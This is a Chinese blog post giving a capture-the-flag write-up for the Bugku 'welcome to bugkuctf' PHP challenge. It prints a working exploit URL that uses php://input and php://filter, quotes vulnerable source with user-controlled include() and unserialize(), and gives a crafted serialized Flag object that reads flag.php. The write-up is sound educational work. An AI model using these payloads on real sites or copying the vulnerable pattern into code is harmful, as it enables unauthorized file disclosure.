






<!--yml
category: 未分类
date: 2022-04-26 14:53:29
-->

# welcome to bugkuctf（详解）——Bugku_weixin_33728268的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_33728268/article/details/89625741](https://blog.csdn.net/weixin_33728268/article/details/89625741)

刚刚做了bugku的题目现在整理一下

写出解题思路希望能够帮助到那些需要帮助的人

所有的wp都是以一题一篇的形式写出

主要是为了能够让读者更好的阅读以及查找

希望你们不要责怪共勉



解题思路这一题我一开始的时候使用的是hackbar并没有任何反应所以最后选择使用burp

那么解题思路就以burp来写了

首先使用burp进行抓包处理就好



可以看到源代码我大概的说一下其中的含义

1.三个传参

2.$user存在且不为空

3.读取$user文件内容为welcome to the bugkuctf

4.$file要求为hint.php将其导入

其实比较熟悉就知道两个点可以利用了php://input与php://filter

这里需要使用的是php://input

当传进去的参数作为文件名变量去打开文件时可以将参数php://传进

同时post方式传进去值作为文件内容供php代码执行时当做文件内容读取



我们再利用php://filter 读取hint.php的内容就好了

使用的load url:

http://120.24.86.145:8006/test1/index.php?txt=php://input&file=php://filter/read=convert.base64-encode/resource=hint.php&password=



属于base64编码进行解密就会得到

```
<?php class Flag{//flag.php 
    public $file; public function __tostring(){ if(isset($this->file)){ echo file_get_contents($this->file); echo "<br>"; return ("good");
        }  
    }  
} ?> 
```

同理把hint.php改为index.php就会得到



又是一段base64编码的同理就会得到

```
<?php $txt = $_GET["txt"]; $file = $_GET["file"]; $password = $_GET["password"]; if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){ echo "hello friend!<br>"; if(preg_match("/flag/",$file)){ echo "给你 flag吧¦"; exit();  
    }else{ include($file); $password = unserialize($password); echo $password;  
    }  
}else{ echo "you are not the number of bugku ! ";  
} ?>  

<!--  
$user = $_GET["txt"]; $file = $_GET["file"]; $pass = $_GET["password"]; if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){ echo "hello admin!<br>"; include($file); //hint.php 
}else{ echo "you are not admin ! ";  
} --> 
```

从上面获取的源码可得到如下信息

1.提示hint.php中提示flag.php,从index.php可以看到对关键词flag进行了屏蔽

2.hint.php中定义了一个类Flag很有意思的是中间有个 __tostring 方法这个方法可以理解为将这个类作为字符串执行时会自动执行的一个函数

3. __tostring 方法执行时将变量$file作为文件名输出文件内容结合提示flag.php猜测屏蔽的flag.php文件在此打开

4.在index.php源码中看到了$password的作用

这里走进了一个坑一直在想办法绕过flag关键词的屏蔽但是限制于php://fliter的格式一直不得其解

正解应该是利用$password

之前说过Flag方法当做字符串执行时会自动执行 __tostring 方法注意到echo函数只能输出一个或多个字符串所以只要$password为Flag类型数据且其中string类型的变量$file为flag.php即可

理解到这里就懂了为啥多一个很奇怪的unserialize函数其作用即为让你用字符串方式传递一个类

这里参考的博文是https://blog.csdn.net/wy_97/article/details/77771026

执行得到O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

就会得到



最后的答案flag{php_is_the_best_language}

您可以考虑给博主来个小小的打赏以资鼓励您的肯定将是我最大的动力。

关于作者潜心于网络安全学习。如有问题或建议请多多赐教

版权声明本文版权归作者和博客园共有欢迎转载但未经作者同意必须保留此段声明且在文章页面明显位置给出原文连接.

特此声明所有评论和私信都会在第一时间回复。也欢迎园子的大大们指正错误共同进步。或者直接私信我

声援博主如果您觉得文章对您有帮助可以点击文章右下角【推荐】一下。您的鼓励是作者坚持原创和持续写作的最大动力